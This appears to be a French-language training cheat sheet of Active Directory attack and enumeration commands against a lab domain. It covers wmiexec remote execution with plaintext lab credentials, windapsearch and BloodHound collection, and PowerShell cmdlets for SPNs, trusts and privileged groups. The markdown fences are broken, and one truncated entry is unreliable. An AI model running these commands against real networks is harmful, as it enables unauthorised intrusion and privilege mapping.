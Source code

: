 ```shell
### Outil Impacket utilisé pour se connecter à la CLI d'une cible Windows via WMI avec des identifiants valides. Exécuté depuis un hôte basé sur Linux.
```bash
`wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5`
```shell
### Utilisé pour afficher les options et la fonctionnalité de windapsearch.py. Exécuté depuis un hôte basé sur Linux.
```bash
`windapsearch.py -h`
```shell
### Utilisé pour énumérer le groupe des administrateurs de domaine (--da) en utilisant un ensemble d'identifiants valides sur un domaine Windows cible. Exécuté depuis un hôte basé sur Linux.
```bash
`python3 windapsearch.py --dc-ip 172.16.5.5 -u inlanefreight\wley -p transporter@4 --da`
```shell
### Utilisé pour effectuer une recherche récursive (-PU) d'utilisateurs avec des permissions imbriquées en utilisant des identifiants valides. Exécuté depuis un hôte basé sur Linux.
```bash
`python3 windapsearch.py --dc-ip 172.16.5.5 -u inlanefreight\wley -p transporter@4 -PU`
```shell
### Exécute l'implémentation python de BloodHound (bloodhound.py) avec des identifiants valides et spécifie un serveur de noms (-ns) et un domaine Windows cible (inlanefreight.local) ainsi qu'exécute toutes les vérifications (-c all). Fonctionne avec des identifiants valides. Exécuté depuis un hôte basé sur Linux.
```bash
`sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all`
```shell
## Énumération par "Living Off the Land"

### Cmdlet PowerShell utilisé pour lister tous les modules disponibles, leur version et options de commande depuis un hôte basé sur Windows.
```bash
`Get-Module`
```shell
### Charge le module PowerShell Active Directory depuis un hôte basé sur Windows.
```bash
`Import-Module ActiveDirectory`
```shell
### Cmdlet PowerShell utilisé pour recueillir des informations sur le domaine Windows depuis un hôte basé sur Windows.
```bash
`Get-ADDomain`
```shell
### Cmdlet PowerShell utilisé pour énumérer les comptes utilisateurs sur un domaine Windows cible et filtrer par ServicePrincipalName. Exécuté depuis un hôte basé sur Windows.
```bash
`Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`
```shell
### Cmdlet PowerShell utilisé pour énumérer toutes les relations de confiance dans un domaine Windows cible et filtre par tous (-Filter *). Exécuté depuis un hôte basé sur Windows.
```bash
`Get-ADTrust -Filter *`
```shell
### select name
```bash
`Get-ADGroup -Filter * \
```shell
### Cmdlet PowerShell utilisé pour rechercher un groupe spécifique (-Identity "Backup Operators"). Exécuté depuis un hôte basé sur Windows.
```bash
`Get-ADGroup -Identity "Backup Operators"`
```shell
### Cmdlet PowerShell utilisé pour découvrir les membres d'un groupe spécifique (-Identity "Backup Operators"). Exécuté depuis un hôte basé sur Windows.
```bash
`Get-ADGroupMember -Identity "Backup Operators"`
```shell
```